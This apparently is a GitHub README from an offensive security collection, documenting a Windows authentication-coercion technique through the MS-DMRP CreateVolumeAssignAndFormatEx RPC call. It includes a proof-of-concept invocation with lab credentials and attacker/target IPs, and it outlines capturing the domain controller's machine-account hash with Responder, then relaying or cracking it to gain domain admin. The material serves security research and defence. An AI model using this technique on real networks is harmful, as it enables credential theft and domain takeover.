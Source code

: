 # MS-DMRP - Remote call to IVolumeClient::CreateVolumeAssignAndFormatEx (opnum 32)

## Summary

 - **Protocol**: [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd)

 - **Protocol UUID**: d2d79df5-3400-11d0-b40b-00aa005ff586

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IVolumeClient::CreateVolumeAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/11f81cae-247b-48c1-a8d5-fe677710641d)

 - **Function operation number**: `32`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol (with uuid `d2d79df5-3400-11d0-b40b-00aa005ff586` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DMRP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DMRP]: Disk Management Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd) and allows to call RPC functions of this protocol. We will then call the remote [`IVolumeClient::CreateVolumeAssignAndFormatEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/11f81cae-247b-48c1-a8d5-fe677710641d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IVolumeClient::CreateVolumeAssignAndFormatEx('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateVolumeAssignAndFormatEx(
   [in] VOLUME_SPEC volumeSpec,
   [in] unsigned long diskCount,
   [in, size_is(diskCount)] DISK_SPEC* diskList,
   [in] wchar_t letter,
   [in] hyper letterLastKnownState,
   [in] int cchAccessPath,
   [in, size_is(cchAccessPath)] wchar_t* AccessPath,
   [in] FILE_SYSTEM_INFO fsSpec,
   [in] boolean quickFormat,
   [in] DWORD dwFlags,
   [out] TASK_INFO* tinfo
 );
```

## References

 - Documentation of protocol [MS-DMRP]: Disk Management Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/19a16e20-072f-4d74-a245-ce4df2f1ecdd

 - Documentation of function `IVolumeClient::CreateVolumeAssignAndFormatEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dmrp/11f81cae-247b-48c1-a8d5-fe677710641d